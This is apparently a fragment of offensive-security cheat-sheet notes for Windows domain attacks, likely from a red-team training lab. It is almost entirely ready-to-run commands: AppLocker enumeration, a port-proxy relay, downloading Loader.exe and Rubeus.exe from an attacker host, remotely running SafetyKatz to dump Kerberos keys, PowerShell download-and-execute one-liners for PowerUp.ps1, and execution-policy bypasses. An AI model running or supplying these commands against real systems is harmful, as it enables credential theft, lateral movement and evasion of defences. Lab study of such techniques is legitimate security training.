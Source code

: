 ```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```


```
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.99.87"



iwr http://172.16.99.87/Loader.exe -OutFile C:\Users\Public\Loader.exe


iwr http://172.16.99.87/Rubeus.exe -OutFile C:\Users\Public\Rubeus.exe


echo Y | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe


$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit

```


# Privilege Escalation

## PowerUp.ps1

Link https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

Download and run from attacker's machine

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/PowerUp.ps1');Invoke-AllChecks
```

Download and run from internet

```
powershell iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Invoke-AllChecks
```
# Defense Evasion

## Bypassing Execution Policy

		powershell -ExecutionPolicy bypass
		powershell -c <cmd>
		powershell -encodedcommand $env:PSExecutionPolicyPreference="bypass"
